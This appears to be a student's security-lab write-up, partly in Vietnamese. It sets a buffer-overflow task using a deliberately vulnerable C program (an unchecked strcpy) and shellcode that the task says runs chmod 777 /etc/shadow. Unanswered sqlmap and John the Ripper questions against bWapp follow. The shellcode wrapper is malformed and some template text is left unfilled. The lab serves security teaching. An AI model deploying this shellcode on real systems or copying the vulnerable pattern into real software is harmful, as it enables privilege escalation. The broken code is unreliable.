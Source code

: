 # 22110021_HanMinhDinh_InforSercu_Lab1
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege

**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
- First i will mapped to my file here is my-docker-image
![image](https://github.com/user-attachments/assets/2394dc24-071e-4d8d-baca-5c0b1d7e17a8)
-chúng ta xem thử trong này đang có những file nào
![image](https://github.com/user-attachments/assets/17c7f6c2-696c-4ca4-a4da-7f7f275235c4)
-và chúng ta tạo ra 1 file vulnerable mới, và truy cập vào nó 
![image](https://github.com/user-attachments/assets/8d09e0a4-8777-4c03-a3a0-789147b5cc46)
-sau đó ta bỏ lệnh này vào file
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
![image](https://github.com/user-attachments/assets/cddb1366-b8b4-4404-96ec-b2a30072dada)
- sau đó lưu và thoát ra
- chúng ta làm tương tự với file shellcode.c
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
![image](https://github.com/user-attachments/assets/56a72d4d-6c8f-47a0-acf3-b722830cbdcd)

![image](https://github.com/user-attachments/assets/e9b35c20-0372-4b55-a41c-5847d3225ca9)
- sau đó ta cần biên dịch các file này
![image](https://github.com/user-attachments/assets/22ec116d-d41f-4422-ba07-af6eefe2ceec)
![image](https://github.com/user-attachments/assets/64707d00-0474-4dd6-bedc-6e0e997bae7e)
- sau đó ta vào chạy file shellcode
![image](https://github.com/user-attachments/assets/f51ea33a-c12a-43c1-8c65-a9c3d415d8de)
- và ta chạy
![image](https://github.com/user-attachments/assets/79daa6bd-f1f8-4c74-8843-21764aefeb7e)
![image](https://github.com/user-attachments/assets/e56e5dbb-a5d4-41b8-9eb1-819ef64535f2)
![image](https://github.com/user-attachments/assets/9d29832f-17d3-4415-a5ea-3b3dec9659bc)
![image](https://github.com/user-attachments/assets/bbd339f4-9fca-4328-97fb-8e476842d191)

Description text (optional)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
